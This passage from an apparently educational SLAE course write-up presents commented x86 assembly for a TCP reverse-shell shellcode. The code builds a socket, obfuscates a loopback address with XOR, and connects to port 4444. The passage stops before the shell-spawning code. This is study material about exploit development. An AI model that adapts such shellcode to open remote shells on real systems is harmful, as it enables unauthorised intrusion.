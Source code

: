 ## The assembly code

Putting all pieces together, this is the second assignment solution in assembler.

{% highlight assembly %}
; Filename: 	tcp_reverse_shellcode.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Twitter:    	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	connect to a given IP and PORT and spawning a reverse shell if
;		connection succeded 


global _start			

section .text

_start:

	; Creating the socket.
	; 
	; int socket(int domain, int type, int protocol);
	; 
	; socket() is defined as #define __NR_socket 359 on /usr/include/i386-linux-gnu/asm/unistd_32.h
	; AF_INET is defined as 2 in /usr/include/i386-linux-gnu/bits/socket.h
	; SOCK_STREAM is defined as 1 in /usr/include/i386-linux-gnu/bits/socket_type.h
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

	mov ax, 0x167
	mov bl, 0x2
	mov cl, 0x1
	int 0x80 ; sfd = socket(AF_INET, SOCK_STREAM, 0);
	mov ebx, eax ; storing the socket descriptor into EBX for next syscall

	; Connect to my peer
	; 
	; connect() is defined as #define __NR_connect 362 on  /usr/include/i386-linux-gnu/asm/unistd_32.h
	; peer.sin_family 	= AF_INET;
	; peer.sin_port 	= htons(DPORT); 
	; peer.sin_addr.s_addr = inet_addr(IP); 
	; ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

	; 127 = 0x7f
	; 0   = 0x0 
	; 0   = 0x0 
	; 1   = 0x1

	; push 0x0100007f
	mov eax, 0xfeffff80
	xor eax, 0xffffffff
	push eax
	push word 0x5c11 	; port 4444 is 0x5c11
	push word 0x2 		; AF_INET is 2
	

	mov ecx, esp
	mov dl, 0x10 ; sizeof(struct sockaddr_in)
	xor eax, eax
	mov ax, 0x16a
	int 0x80 

	test eax, eax ; check if eax is zero
	jnz exit_on_error
		

	; Duplicating descriptor 0, 1, 2 to the socket opened by client